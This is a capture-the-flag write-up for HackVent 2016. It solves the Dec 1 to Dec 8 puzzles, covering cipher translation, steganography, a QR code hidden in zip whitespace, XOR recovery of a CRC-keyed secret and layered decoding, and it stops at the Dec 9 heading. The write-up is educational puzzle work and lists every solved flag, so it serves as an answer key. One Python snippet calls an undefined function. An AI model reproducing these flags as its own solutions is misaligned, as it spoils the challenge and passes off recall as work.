

# HackVent 2016

Another edition of Hacking-Lab's annual advent calender CTF. Every day between December 1 and Christmas, a new challenge is released. Solve it on the day of release for maximum points, solve it later (but before the new year) for one point less.

## Overview


```
Title                                    Category  Points  Flag
---------------------------------------- --------- ------- -----------------------------
Dec 1: Detours                           Easy      2/1     HV16-t8Kd-38aY-QxL5-bn4K-c6Lw
Dec 2: Free Giveaway                     Easy      2/1     HV16-SDhs-qqpf-zQLp-OQH4-2Xmg
Dec 3: Manufactory                       Easy      2/1     HV16-oY2d-2Ki7-JBDe-VVdg-X8bW
Dec 4: Language of Us                    Easy      2/1     HV16-O7oI-W34j-BJH7-cSvk-e5Hz
Dec 5: Boolean Fun                       Medium    3/2     HV16-2wGq-wOX3-T2oe-n8si-hZ0A
Dec 6: Back 2 Work                       Medium    3/2     HV16-y9YO-sDo1-Vi7O-RWq1-V7hN
Dec 7: TrivialKRYPTO 1.42                Medium    3/2     HV16-bxuh-b3ep-1PCU-b9ft-CgVu
Dec 8: Lost in Encoding                  Medium    3/2     HV16-l0st-1n7r-4nsl-4710-n00b
Dec 9: Illegal Prime Number              Medium    3/2     HV16-0228-d75b-40cd-8a0e-1f3e
Dec 10: I want to play a Game            Medium    3/2     HV16-Vm5y-NjgH-e7tW-PgMa-61JH
Dec 11: A-maze-ing GIFt                  Medium    3/2     HV16-otli-KbAg-MDVb-TMTO-WTDI
Dec 12: Crypt-o-math                     Hard      4/3     HV16-laWz-D5yT-0Uzb-DFj0-FIsL
Dec 13: JCoinz                           Hard      4/3     HV16-y4h0-g00t-d33m-c01n-zzzz
Dec 14: Radio Wargame                    Hard      4/3     HV16-1337-Radi-oWar-game-1337
Dec 15: SAP - Santas Admin Panel         Hard      4/3     HV16-R41n-d33r-8yt3-Fl1p-H4ck
Dec 16:                                  Hard      4/3
Dec 17:                                  Hard      4/3
Dec 18:                                  Hard      4/3
Dec 19:                                  Hard      4/3
Dec 20:                                  Hard      4/3
Dec 21:                                  Expert    5/4
Dec 22:                                  Expert    5/4
Dec 23:                                  Expert    5/4
Dec 24:                                  Expert    5/4

Hidden 1:                                          1        HV16-hSCk-DTwW-wnKr-yTVj-bOay
Hidden 2:
Hidden 3:
```

## Hidden Balls

There were some easter eggs as well

**Hidden 1**  
On dec 10 a message appeared

```
Just wondering why #Thumper (@HackyEaster) isn't playing #HACKvent. Did you see him? Follow the rabbit !
```

We go to that twitter account and find a [tweet](https://twitter.com/HackyEaster/status/807510441605951489) with a ball


```
HV16-hSCk-DTwW-wnKr-yTVj-bOay
```

**Hidden 2**  

**Hidden 3**  

## Dec 1: Detours  

**Challenge**  

Santa receives an email with links to three pictures, but every picture is the same.
He talks with some of his elves and one says, that there is some weird stuff happening
when loading these pictures. Can you identify it?

```
http://ow.ly/unCT306N19f
http://ow.ly/xW3h306N18f
http://ow.ly/3wfc306N10K
```

**Solution**  

All three links lead to the same [image on wikipedia](https://upload.wikimedia.org/wikipedia/commons/thumb/7/7c/Intocht_van_Sinterklaas_in_Schiedam_2009_%284102602499%29_%282%29.jpg/220px-Intocht_van_Sinterklaas_in_Schiedam_2009_%284102602499%29_%282%29.jpg):


There must be something going on with the shortened urls. We get the images with
`wget` for some more info:

```
$ wget http://ow.ly/unCT306N19f

Resolving ow.ly (ow.ly)... 54.183.131.91, 54.67.57.56, 54.67.62.204, ...
Connecting to ow.ly (ow.ly)|54.183.131.91|:80... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: http://bit.do/HV16-t8Kd [following]
--2016-12-05 22:51:21--  http://bit.do/HV16-t8Kd
Resolving bit.do (bit.do)... 54.83.52.76
Connecting to bit.do (bit.do)|54.83.52.76|:80... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://upload.wikimedia.org/wikipedia/commons/thumb/7/7c/Intocht_van_Sinterklaas_in_Schiedam_2009_%284102602499%29_%282%29.jpg/220px-Intocht_van_Sinterklaas_in_Schiedam_2009_%284102602499%29_%282%29.jpg [following]
--2016-12-05 22:51:22--  https://upload.wikimedia.org/wikipedia/commons/thumb/7/7c/Intocht_van_Sinterklaas_in_Schiedam_2009_%284102602499%29_%282%29.jpg/220px-Intocht_van_Sinterklaas_in_Schiedam_2009_%284102602499%29_%282%29.jpg
Resolving upload.wikimedia.org (upload.wikimedia.org)... 91.198.174.208, 2620:0:862:ed1a::2:b
Connecting to upload.wikimedia.org (upload.wikimedia.org)|91.198.174.208|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 21433 (21K) [image/jpeg]
Saving to: ‘unCT306N19f’

unCT306N19f         100%[===================>]  20,93K  --.-KB/s    in 0,05s   

2016-12-05 22:51:22 (391 KB/s) - ‘unCT306N19f’ saved [21433/21433]

```

Hmm, the `ow.ly` link resolves to `http://bit.do/HV16-t8Kd` this looks like the
start of a nugget!

we do the same for the other two links and find

```
http://bit.do/38aY-QxL5
http://bit.do/bn4K-c6Lw
```

Putting it all together gives the nugget

**Nugget**

```
HV16-t8Kd-38aY-QxL5-bn4K-c6Lw
```

## Dec 2: Free Giveaway  

**Challenge**  

*the keys are the key*

Today, Santa has a free giveaway for you:

`DK16[OEdo[''lu[;"Nl[R"D4[2Qmi`

**Solution**  

Seems clear that that string represents the flag, vigenere cipher?

`D` is 4th letter in alphabet, if you shift 4 further you get `H`, `K` is eleventh letter
and if you shift 11 further you get `V` ..but how to handle special characters? `[` needs
to be shifted to `-`

This almost works..? (but seems too random to just exclude number and not keep ascii
ordering of chars ..I dunno, it's day 2, probably overthinking?)

hint is *the key is in the keys* ..maybe only shift those symbols that you need
the shift key to type? (so leave lowercase and numbers as is, shift uppercase and
some other symbols?)

```python
import string

flag="DK16[OEdo[''lu[;\"Nl[R\"D4[2Qmi"
alphabet="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz123456789 !\"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ "

pt=''
count=0
for c in flag:
    if c in string.digits or c in string.lowercase:
        pt+=c
    else:
        pt += alphabet[((alphabet.find(c)+alphabet.find(flag[count]))+1)%len(alphabet)]
    count +=1

print pt
```

Turns out it is just a translation from qwerty to dvorak. Inverting that gives us the answer and explains the hint mentioning "keys":

```python
from string import maketrans

QWERTY = '''-=qwertyuiop[]sdfghjkl;'zxcvbn,./_+QWERTYUIOP{}SDFGHJKL:"ZXCVBN<>?'''
DVORAK = '''[]',.pyfgcrl/=oeuidhtns-;qjkxbwvz{}"<>PYFGCRL?+OEUIDHTNS_:QJKXBWVZ'''
TRANS = maketrans(DVORAK, QWERTY)

flag="DK16[OEdo[''lu[;\"Nl[R\"D4[2Qmi"

print ''.join([x.translate(TRANS) for x in list(flag)])
```

**Nugget**

```
HV16-SDhs-qqpf-zQLp-OQH4-2Xmg
```

## Dec 3: Manufactory  

**Challenge**  

Today's gift is ready to be manufactured, but Santa's afraid that his factory won't manage to do a production run before christmas. But perhaps you can create it yourself?

**Solution**  

The file was a gcode file for a 3d printer

```
; generated by Slic3r 1.2.9 on 2016-12-05 at 07:54:32

; external perimeters extrusion width = 0.50mm
; perimeters extrusion width = 0.72mm
; infill extrusion width = 0.72mm
; solid infill extrusion width = 0.72mm
; top infill extrusion width = 0.72mm

M107
M104 S200 ; set temperature
G28 ; home all axes
G1 Z5 F5000 ; lift nozzle

M109 S200 ; wait for temperature to be reached
G21 ; set units to millimeters
G90 ; use absolute coordinates
M82 ; use absolute distances for extrusion

...

```

We can view this online at [gcode.ws](http://gcode.ws/)


**Nugget**

```
HV16-oY2d-2Ki7-JBDe-VVdg-X8bW
```

## Dec 4: Language of Us  

**Challenge**  

You all should know this language, but this one is not that consequent as it should be.

```
st3g4|/|o9ra|*h`/ !s 7he |*r4(t!ce 0f (0n(ea£i|/|9 a |=il3, m35s4ge, !m49e, 0r v!d30 w!th!n 4|/|o7he|2 f!£e, /v\es5a93, i/v\ag3, o|2 \'i|)eo. 7h3 \/\/o|2d s7e94n0gr4p|-|`/ c0mb!n35 t|-|e g|2e3|< w0rd5 s73g4no5, m34n!ng "(o\'3r3d, c0n(3a£ed, 0r |*|2o7ec7e|)", 4n|) gr4p|-|3i|/| me4n!|/|g "\/\/ri7i|/|9".
t|-|e f!r57 r3co|2d3|) u5e o|= t|-|3 t3rm \/\/a5 8y _|oh4n|/|3s 7ri7h3/v\i|_|s i|/| h!5 s7eg4n09r4ph!a, 4 7r3at!s3 0n (ry|*t09r4ph`/ a|/||) s7eg4n09r4ph`/, d!5g|_|is3d 45 a 8oo|< o|/| /v\a9ic. 9e|/|3r4ll`/, t|-|3 h!dd3n /v\3s5ag3s 4|*p3ar 7o 83 s0me7h!|/|g 3ls3: i/v\4g3s, a|2t!(l3s, s|-|o|*|*i|/|g l!s75, o|2 so/v\e 07h3r c0v3|2 t3xt. |=o|2 3x4mp£e, 7|-|e |-|id|)e|/| /v\e5sa9e /v\4y 8e i|/| i|/|\'i5ib£e !|/|k 8et\/\/e3|/| t|-|e v!s!8l3 li|/|e5 0f 4 pr!v47e £et7e|2. 5o/v\e i/v\p£3m3nt4t!0n5 of 5t39a|/|og|2a|*|-|y 7ha7 l4(k 4 sh4r3|) s3cr3t 4|2e |=or/v\s 0|= s3cu|2i7`/ t|-|ro|_|g|-| 0b5cu|2i7`/, w|-|e|2ea5 key-d3p3n|)3nt s73gan0gr4|*h!( sch3m35 a|)h3re 70 |<3rc|<|-|o|=|=5's |*|2i|/|(!|*l3.
th3 ad\'an7a93 o|= s7e9a|/|09ra|*|-|y o\'3r c|2`/p7ogr4|*h`/ a£one !s 7|-|a7 t|-|e int3nd3d s3c|2et /v\es5age do35 n07 4tt|2a(7 a7t3|/|tio|/| 7o !t5el|= 4s 4|/| 0b_|3ct 0|= s(r|_|7in`/. p£4i|/|l`/ \'is!b£e e|/|(r`/p7e|) me5sage5 - |/|0 /v\a7ter |-|o\/\/ |_|n8re4k48l3 - ar0u53 i|/|te|2e57, a|/|d m4y !|/| t|-|em5e£\'e5 be !n(|2i/v\in4t!|/|g !n c0u|/|7r!es \/\/h3|2e 3nc|2y|*7i0n i5 i££e9al. 7h|_|5, w|-|er3a5 (r`/pt0g|24p|-|y i5 t|-|3 p|2ac7i(3 o|= pr0t3(t!ng 7h3 (o|/|te|/|t5 0f 4 me5s49e 4lo|/|e, 57e9an0g|24p|-|y i5 c0|/|c3rn3d \/\/!t|-| co|/|c34l!ng 7h3 |=a(t t|-|a7 4 s3cr3t /v\3s5ag3 i5 8e!ng 5e|/|7, a5 we£l 45 c0nc3a£!n9 th3 c0|/|t3nt5 o|= 7h3 me5s49e.
5te9a|/|0g|2ap|-|y !|/|c£ud3s 7|-|e (on(e4£m3nt 0f !|/|f0rm4t!0n \/\/it|-|i|/| (o/v\pu7e|2 |=i£es. !n |)!g!ta£ s73g4no9r4|*h`/, el3c7|2o|/|ic (o/v\/v\u|/|ic4t!0n5 ma`/ i|/|(l|_|de 5t39a|/|og|2a|*|-|i( co|)i|/|9 i|/|si|)e 0|= a 7ra|/|s|*0r7 la`/e|2, 5u(h a5 a |)0c|_|me|/|t |=!l3, im4g3 |=i£e, p|2o9|2a/v\ or |*r07o(ol. /v\e|)!a |=il3s 4|2e !de4l |=0r 5te9a|/|0g|2ap|-|i( 7r4ns/v\i55i0n b3c4|_|s3 of 7h3!r £ar9e 5!z3. fo|2 e><4m|*le, 4 s3|/|d3r m!g|-|7 s7ar7 w!7h 4n i|/|n0(u0us !m49e |=il3 a|/||) a|)ju5t 7|-|e (ol0r 0|= e\'er`/ h|_||/|d|2ed7h |*!x3l t0 c0|2r3sp0n|) 7o 4 le7t3|2 i|/| th3 a£|*h4be7, a (|-|a|/|ge 5o 5|_|b7le 7h47 s0me0n3 |/|o7 sp3c!|=i(al£y £0o|<in9 f0|2 i7 is |_|n£!k3ly 7o |/|0t!ce !t.
```

**Solution**  

This leetspeak reads:

```
Steganography is the practice of concealing a file, message, image, or video within another file, message, image, or video. The word steganography combines the greek words steganos, meaning "covered, concealed, or protected", and graphein meaning "writing".
The first recorded use of the term was by johannes trithemi|js in his steganographia, a treatise on cryptography and steganography, disguised as a book on magic. generally, the hidden messages appear to be something else: images, articles, shopping lists, or some other cover text. for example, the hidden message may be in invisible ink between the visible lines of a private letter. some implementations of steganography that lack a shared secret are forms of security through obscurity, whereas key-dependent steganographic schemes adhere to kerckhoffs's principle.
The advantage of steganography over cryptography alone is that the intended secret message does not attract attention to itself as an object of scrutiny. plainly visible encrypted messages - no matter how unbreakable - arouse interest, and may in themselves be incriminating in countries where encryption is illegal. thus, whereas cryptography is the practice of protecting the contents of a message alone, steganography is concerned with concealing the fact that a secret message is being sent, as well as concealing the contents of the message.
Steganography includes the concealment of information within computer files. in digital steganography, electronic communications may include steganographic coding inside of a transport layer, such as a document file, image file, program or protocol. media files are ideal for steganographic transmission because of their large size. for example, a sender might start with an innocuous image file and adjust the color of every hundredth pixel to correspond to a letter in the alphabet, a change so subtle that someone not specifically looking for it is unlikely to notice it.
```

nothing obvious in there so should be more to it, the hint said something about
this not being as consistent as it should be.. hmm

most letters appear both in regular form and in leet form, maybe that is hiding
some more info, for the first couple words, noting a `1` if the letter was written
in leet and a `0` otherwise gives:

```
00101101 00101101 00101101 00101101 00101101
```

This is the same pattern (`-` symbol in ascii) repeated, this must be intentional,
let's apply it to the entire message:

```
00101101001011010010110100101101001011010010110100101101001011010010110100101101
00101101001011010010110100101101001011010010110100101101001011010010110100101101
00101101001011010010110100101101001011010010110100101101001011010010110100101101
00101101001011010010110100101101001011010010110100101101001011010010110100101101
00101101001011010010110100101101001011010010110100101101001011010010110100101101
00101101001011010010110100101101001011010010110100101101001011010010110100101101
00101101001011010010110100101101001011010010110100101101001011010010110100101101
001011010010110100101101001011010010110100101101

01001000010101100011000100110110001011010100111100110111011011110100100100101101
01010111001100110011010001101010001011010100001001001010010010000011011100101101
01100011010100110111011001101011001011010110010100110101010010000111101000101101

00101101001011010010110100101101001011010010110100101101001011010010110100101101
00101101001011010010110100101101001011010010110100101101001011010010110100101101
00101101001011010010110100101101001011010010110100101101001011010010110100101101
00101101001011010010110100101101001011010010110100101101001011010010110100101101
00101101001011010010110100101101001011010010110100101101001011010010110100101101
00101101001011010010110100101101001011010010110100101101001011010010110100101101
00101101001011010010110100101101001011010010110100101101001011010010110100101101
00101101001011010010110100101101001011010010110100101101001011010010110100101101
00101101001011010010110100101101001011010010110100101101001011010010110100101101
001011010010110100101101001011010010
```

```
--------------------------------------------------------------
--------------HV16-O7oI-W34j-BJH7-cSvk-e5Hz-------------------
--------------------------------------------------------------
--------------
```


**Nugget**

```
HV16-O7oI-W34j-BJH7-cSvk-e5Hz
```

## Dec 5: Boolean Fun  

**Challenge**  

Santa found a paper with some strange logical stuff on it. On the back of it there is the hint: "use 32 bit".

He has no clue what this means - can you show him, what "???" should be?



**Solution**  

Just some bitwise logic operators, we can calculate answer in python as follows:

```
$ python
>>> ~((4 | 7) ^ (1337 & 424242)) | 0xb055
-291
```

Put `-291` in Ball-o-matic to get the bauble with the nugget


**Nugget**

```
HV16-2wGq-wOX3-T2oe-n8si-hZ0A
```

## Dec 6: Back 2 Work  

**Challenge**  
Greetings from Thumper, he has an order for you:

1. unzip: the password is confidential
2. find the flag
3. look at my holiday pictures

Comment: Be aware, the pictures are only supplement.

**Solution**  

We get a zip file with 25 images in them, the images are of hacky easter bunny
but the hint says the images are not important. So we focus on the zip file itself

We can extract it with password `confidential` but see nothing strange.

we get some information about the zip file

```
$ unzip -v dec6_original.zip                                                                                                           [06-12-16 15:51:45]
Archive:  dec6_original.zip
 Length   Method    Size  Cmpr    Date    Time   CRC-32   Name
--------  ------  ------- ---- ---------- ----- --------  ----
  822192  Defl:N   821475   0% 2016-09-07 22:30 9ac20439  image_0004.jpg
                                                    -
  649281  Defl:N   648888   0% 2016-09-07 22:30 34b1e9c3  image_0005.jpg
                                                                   -
  774896  Defl:N   774435   0% 2016-09-07 22:30 764cdcab  image_0017.jpg
                                                             -
  658523  Defl:N   657723   0% 2016-09-07 22:30 17038f5a  image_0002.jpg
                                                    -
  584984  Defl:N   584386   0% 2016-09-07 22:30 a2a99aad  image_0013.jpg
                                                             -
  639489  Defl:N   639014   0% 2016-09-07 22:30 8a3db508  image_0012.jpg
                                                                      -
  916283  Defl:N   915157   0% 2016-09-07 22:30 14a76079  image_0016.jpg
                                           -
  684503  Defl:N   684052   0% 2016-09-07 22:30 1de58966  image_0010.jpg
                                                                                     -
  608586  Defl:N   607823   0% 2016-09-07 22:30 2e7804b3  image_0009.jpg
                                              -
  963456  Defl:N   962651   0% 2016-09-07 22:30 fdd724e0  image_0020.jpg
                                                                -
  695994  Defl:N   695208   0% 2016-09-07 22:30 b370cb8a  image_0018.jpg
                                                             -
  760741  Defl:N   759912   0% 2016-09-07 22:30 3e75e394  image_0001.jpg
                                                                -
  716152  Defl:N   715332   0% 2016-09-07 22:30 9735af02  image_0003.jpg
                                                          -
  772244  Defl:N   771129   0% 2016-09-07 22:30 8c123698  image_0006.jpg
                                                                -
  885418  Defl:N   884858   0% 2016-09-07 22:30 cc732eaa  image_0015.jpg
                                              -
  484512  Defl:N   482635   0% 2016-09-07 22:30 6aa90f1a  image_0011.jpg
                                                                -
  819398  Defl:N   818968   0% 2016-09-07 22:30 696689ab  image_0024.jpg
                                                       -
 1104273  Defl:N  1102447   0% 2016-09-07 22:30 6fb877ce  image_0007.jpg
                                                                            -
 1163165  Defl:N  1162154   0% 2016-09-07 22:30 8774fd48  image_0021.jpg
                                                    -
  719580  Defl:N   718391   0% 2016-09-07 22:30 447933be  image_0023.jpg
                                                                            -
  766740  Defl:N   765316   0% 2016-09-07 22:30 38213aab  image_0019.jpg
                                           -
  829079  Defl:N   828267   0% 2016-09-07 22:30 35e8aea8  image_0025.jpg
                                              -
 1004991  Defl:N  1003782   0% 2016-09-07 22:30 16cfccc6  image_0022.jpg
                                                                -
  792701  Defl:N   790543   0% 2016-09-07 22:30 87b0e0b0  image_0008.jpg
                                                             -
 1362659  Defl:N  1361655   0% 2016-09-07 22:30 01264369  image_0014.jpg
                                                       -
--------          -------  ---                            -------
20179840         20156201   0%                            25 files

```

We see that there is whitespace (spaces and tabs) after each file name here.

We open the zip file in a hex editor and see the following character after each
file name in the listing:

```
20 20 20 20 20 20 20 09 09 09 09 09 20 09 20 09 09 09 20 20 20 20 20 20 20
20 09 09 09 09 09 20 09 20 09 20 09 20 20 20 20 20 09 20 09 09 09 09 09 20
20 09 20 20 20 09 20 09 09 09 09 20 09 09 20 20 09 09 20 09 20 20 20 09 20
20 09 20 20 20 09 20 09 20 20 20 20 20 09 20 09 09 09 20 09 20 20 20 09 20
20 09 20 20 20 09 20 09 09 20 09 09 09 20 09 09 20 09 20 09 20 20 20 09 20
20 09 09 09 09 09 20 09 20 20 09 09 20 20 20 20 09 09 20 09 09 09 09 09 20
20 20 20 20 20 20 20 09 20 09 20 09 20 09 20 09 20 09 20 20 20 20 20 20 20
09 09 09 09 09 09 09 09 09 20 20 09 20 09 20 09 20 09 09 09 09 09 09 09 09
20 20 20 20 20 09 20 20 20 20 09 20 20 20 09 20 20 20 09 20 09 20 09 20 09
20 09 20 20 20 20 09 09 09 09 20 20 09 20 09 20 20 09 09 09 09 20 09 20 09
20 09 20 20 09 09 20 09 20 09 20 09 09 09 20 20 20 20 09 20 20 09 09 09 20
09 09 09 20 20 20 09 09 09 09 09 20 09 09 20 20 20 20 20 20 20 20 09 09 09
09 09 09 20 20 20 20 20 20 20 20 09 09 09 20 09 09 20 20 09 09 09 20 20 20
20 20 20 09 20 09 09 20 09 09 09 20 20 09 20 09 09 20 09 20 09 09 09 20 20
20 09 20 09 20 20 20 20 20 20 09 09 20 20 09 20 20 09 20 20 09 20 20 20 20
20 09 09 20 20 20 09 20 09 20 09 20 09 09 09 20 09 20 09 09 20 20 09 09 20
20 09 09 20 09 20 20 09 09 20 20 09 09 09 20 20 20 20 20 20 20 20 20 09 09
09 09 09 09 09 09 09 09 20 20 20 09 09 09 20 09 20 09 09 09 20 09 20 09 20
20 20 20 20 20 20 20 09 20 09 20 09 09 20 20 09 20 09 20 09 20 09 09 20 20
20 09 09 09 09 09 20 09 09 09 09 09 09 09 20 20 20 09 09 09 20 09 09 20 20
20 09 20 20 20 09 20 09 20 09 20 20 20 20 20 20 20 20 20 20 20 09 20 20 09
20 09 20 20 20 09 20 09 20 20 09 20 20 09 20 09 20 20 20 20 09 20 20 20 20
20 09 20 20 20 09 20 09 20 20 20 09 09 09 09 09 20 09 20 20 09 09 09 09 20
20 09 09 09 09 09 20 09 20 09 20 09 20 09 20 20 20 20 20 20 09 20 09 09 20
20 20 20 20 20 20 20 09 20 20 09 09 09 20 09 09 09 09 20 09 20 09 20 20 20
```

When we replace these values with other characters, we notice it looks like
it could represent a QR code

```
0000000     0 0   0000000
0     0 0 0 00000 0     0
0 000 0    0  00  0 000 0
0 000 0 00000 0   0 000 0
0 000 0  0   0  0 0 000 0
0     0 00  0000  0     0
0000000 0 0 0 0 0 0000000
         00 0 0 0        
00000 0000 000 000 0 0 0
0 0000    00 0 00    0 0
0 00  0 0 0   0000 00   0
   000     0  00000000   
   00000000   0  00   000
000 0  0   00 0  0 0   00
0 0 000000  00 00 00 0000
0  000 0 0 0   0 0  00  0
0  0 00  00   000000000  
        000   0 0   0 0 0
0000000 0 0  00 0 0 0  00
0     0       000   0  00
0 000 0 0 00000000000 00
0 000 0 00 00 0 0000 0000
0 000 0 000     0 00    0
0     0 0 0 0 000000 0  0
0000000 00   0    0 0 000
```

So we write a little script to convert theses values to a QR code

```python
from PIL import Image
from qrtools import QR

qrcode="0000000111110101110000000011111010101000001011111001000101111011001101000100100010100000101110100010010001011011101101010001001111101001100001101111100000000101010101010000000111111111001010101111111100000100001000100010101010100001111001010011110101010011010101110000100111011100011111011000000001111110000000011101100111000000101101110010110101110001010000001100100100100000110001010101110101100110011010011001110000000001111111111000111010111010100000000101011001010101100011111011111110001110110001000101010000000000010010100010100100101000010000010001010001111101001111001111101010101000000101100000000100111011110101000"
outimgname = "dec6_qrcode.png"

outimg = Image.new( 'RGB', (25,25), "white")
pixels_out = outimg.load()

for i in range(0,len(qrcode)):
    if qrcode[i] == '0':
        pixels_out[i%25,i/25]=(0,0,0)

outimg=outimg.resize((250,250))
outimg.save(outimgname,"png")

myCode = QR(filename=outimgname)

if myCode.decode():
    print myCode.data_to_string()
```

This outputs the following QR code and the nugget


**Nugget**

```
HV16-y9YO-sDo1-Vi7O-RWq1-V7hN
```


## Dec 7: TrivialKRYPTO 1.42  

**Challenge**  

*You think you need the password?*

Today's present is encrypted. Luckily Santa did not use Kryptochef's KRYPTO 2.0 so there might be a slight chance of recovering it?


**Solution**  

The button leads to a site with a password field and this in the source:

```html
<title>TrivialCrypt</title>

<input type="text" id="pass" placeholder="password" /><input type="button" id="decrypt" value="decrypt" />
<p id="out">enter password ...</p>
<script>
s3cr3t=[2155568001,3847164610,2684356740,2908571526,2557362074,2853440707,3849194977,3171764887];
document.getElementById('decrypt').onclick = function() {
var pass = document.getElementById('pass').value;

var s="";
for(var i=0;i<s3cr3t.length;i++) {
var pp="";
for(var p = (s3cr3t[i] ^ crc32(pass)); p>0; p>>=8) {
pp = String.fromCharCode(p&0xFF)+pp;
}
s+=pp;
}

var out = document.getElementById('out');
if(crc32(s) == 2343675265){
out.className = "right";
out.firstChild.nodeValue = s;
}else{
out.className = "wrong";
out.firstChild.nodeValue = "wrong password ...";
}
}

var makeCRCTable = function(){
    var c;
    var crcTable = [];
    for(var n =0; n < 256; n++){
        c = n;
        for(var k =0; k < 8; k++){
            c = ((c&1) ? (0xEDB88320 ^ (c >>> 1)) : (c >>> 1));
        }
        crcTable[n] = c;
    }
    return crcTable;
}

var crc32 = function(str) {
    var crcTable = window.crcTable || (window.crcTable = makeCRCTable());
    var crc = 0 ^ (-1);

    for (var i = 0; i < str.length; i++ ) {
        crc = (crc >>> 8) ^ crcTable[(crc ^ str.charCodeAt(i)) & 0xFF];
    }

    return ((crc&0xFFFFFFFF) ^ (-1)) >>> 0;
}

</script>
```

This was re-organised into a simplified javascript only file which can be run with node:

```javascript
var makeCRCTable = function(){
    var c;
    var crcTable = [];
    for(var n =0; n < 256; n++){
        c = n;
        for(var k =0; k < 8; k++){
            c = ((c&1) ? (0xEDB88320 ^ (c >>> 1)) : (c >>> 1));
        }
        crcTable[n] = c;
    }
    return crcTable;
}

var crc32 = function(str) {
    var crcTable = crcTable || (crcTable = makeCRCTable());
    var crc = 0 ^ (-1);

    for (var i = 0; i < str.length; i++ ) {
        crc = (crc >>> 8) ^ crcTable[(crc ^ str.charCodeAt(i)) & 0xFF];
    }

    return ((crc&0xFFFFFFFF) ^ (-1)) >>> 0;
}

var secret = [
    2155568001,
    3847164610,
    2684356740,
    2908571526,

    2557362074,
    2853440707,
    3849194977,
    3171764887
];

var pass = "aaa";

var s="";
for(var i=0; i<secret.length; i++) {
    var pp="";
    for(var p = (secret[i] ^ crc32(pass)); p>0; p>>=8) {
        pp = String.fromCharCode(p&0xFF)+pp;
    }
    console.log(pp);
    s+=pp;
}

if(crc32(s) == 2343675265){
    console.log("Right " + s);
}else{
    console.log("Wrong");
}
```

It seems very plausible that each of these numbers corresponds to some portion
of the output key. When crc32(pass) is negative, it fails completely, so
crc32(pass) needs to be positive.

The `for(var p...)` portion, if crc32(pass) is positive, will loop exactly 4
times. So this means that each of those numbers coresponds to 4 characters? We
just need to find cases when a single input value produces outputs all within
ascii range?

Hmm, that simplifies it a bit. E.g. the first 8 bits XOR first 8 bits of
crc32(pass), for all values of secret, must be within ascii. I've taken a stab
at this in 7th-solver.js, but I think there are bugs.

The hint suggests maybe we don't need to discover the password, we take another
look and indeed, each part of the secret would appear to encode 4 characters of the nugget.
We know what the first four characters should be, so we have

`secret[0] ^ crc32(pass) = "HV16"`

which means

`crc32(pass) = secret[0] ^ "HV16"`

so we can compute the value `crc32(pass)` directly, and we just need to xor this
with each part of the secret with this to get the rest of the nugget!


```python
import binascii

def int2ascii(i):
    hex_string = '%x' % i
    n = len(hex_string)
    return binascii.unhexlify(hex_string.zfill(n + (n & 1)))


secret= [2155568001,3847164610,2684356740,2908571526,2557362074,2853440707,3849194977,3171764887]

crcpass = int("HV16".encode("hex"),16) ^ secret[0]

# test that we indeed get the string "HV16" back
nuggetpiece = secret[0] ^ crcpass
print int2bytes(nuggetpiece)

# yay! now do it for all parts of the secret
nugget=''
for s in secret:
    nugget+=int2ascii(s ^ crcpass)

print nugget
```

**Nugget**

```
HV16-bxuh-b3ep-1PCU-b9ft-CgVu
```


## Dec 8:  Lost In Encoding

**Challenge**  

*Multiple encodings = good encryption?*

Santa and his elves do not know good encryption, all they have heard about are some basic encodings. Unfortunately they all are bungling and forgotten the recipe.

It's now on you, who has to get it up. [file](writeupfiles/l0st_1n_7ranslation.fun)

```
=ybegin line=128 size=333 name=lost_in_translation_2.txt
zr^\”„˜‚o„‘‚¤s^uZ€xt}¢l]’‹mžos£•œ{rl¤}_o„“[vka‚‚{•|”¢r|“cn~q_Z|ws[Z¡{~–—y£žo{•_xyoœ~£¤uZ£{n_mx“€pŽo{Ÿ—k¢{nžz¤€ov[’s
u£žp€”™›|otzs•tq‚£x”wZ|uum••|x|¤šl€oš[t•|tƒ¡ {—žxyco}Z•“w•ka¤wš{nžm|‚xqu€l vol‚vq—uZxv”pl€}ƒ¡u•€”ƒo„n{n¡€“|l€otn|£cv„o—
{——yqo „£—sZ‘”xZ™a{~kc|{¡„•xs”l|€”[—wq¢lq™ ~‚oY„ox“xZ™—wq€“w‚w¡}•’£”^g4
=yend size=333 crc32=6389b315
```


**Solution**  

yEnc decode (http://www.webutils.pl/index.php?idx=yenc)

```
PH42WjZnXEZgXzI4K0VNJSxBU3UhaCtEIykrQHBzSW5EZi1cLUA7XXQkRjxHRi9DTG5Wc0RMI10wQTlm
OytEQk5NOEUrTyczK0UyQD5CNiVFdEQuUmAxQDtePzVEL1hIKytFVjoqREJPIkJGXyNjM0RKKCkkRWNs
RzpBVEp1JkRJYWwvQmtNOW9ES0kiMkA7WzMpQDtCRXNGKVBvLEBXLGUmK0NULjFBVSYwKkVjYEZDQDsw
ViRBVEJDRy9LZEsmQmsmOGEvZysmI0gjN0o7QTA9RUQwZkNWIjBRVj1mMGxBcGovTXE/ZENiN0omMGVi
MXMwSkhyfj4=
```

base64 decode

```
<~6Z6g\F`_28+EM%,ASu!h+D#)+@psInDf-\-@;]t$F<GF/CLnVsDL#]0A9f;+DBNM8E+O'3+E2@>B6%
EtD.R`1@;^?5D/XH++EV:*DBO"BF_#c3DJ()$EclG:ATJu&DIal/BkM9oDKI"2@;[3)@;BEsF)Po,@W,
e&+CT.1AU&0*Ec`FC@;0V$ATBCG/KdK&Bk&8a/g+&#H#7J;A0=ED0fCV"0QV=f0lApj/Mq?dCb7J&0eb
1s0JHr~>
```

base85 decode (https://www.tools4noobs.com/online_tools/ascii85_decode/)

```
Computer science education cannot make anybody an expert programmer any more
than studying brushes and pigment can make somebody an expert painter.
- Eric S. Raymond HV16-l0st-1n7r-4nsl-4710-n00b
```

**Nugget**

```
HV16-l0st-1n7r-4nsl-4710-n00b
```

## Dec 9: Illegal Prime Number  

**Challenge**  

